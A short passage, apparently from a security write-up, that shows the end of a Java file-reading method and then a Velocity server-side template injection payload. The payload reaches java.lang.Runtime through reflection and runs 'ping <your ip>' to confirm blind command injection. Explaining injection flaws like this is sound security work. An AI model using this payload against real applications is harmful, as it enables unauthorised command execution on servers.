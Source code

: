 ```java
                } catch (IOException e) {
                    e.printStackTrace();
                }
            }
        }

        return content.toString();
    }
```

The `readFileToString` function is used to read a file and replace some text with a defined parameter.

```
#set($engine="")
#set($proc=$engine.getClass().forName("java.lang.Runtime").getRuntime().exec("ping <your ip>"))
#set($null=$proc.waitFor())
${{null}}
```

We can use the above payload to achieve blind command injection via SSTI.
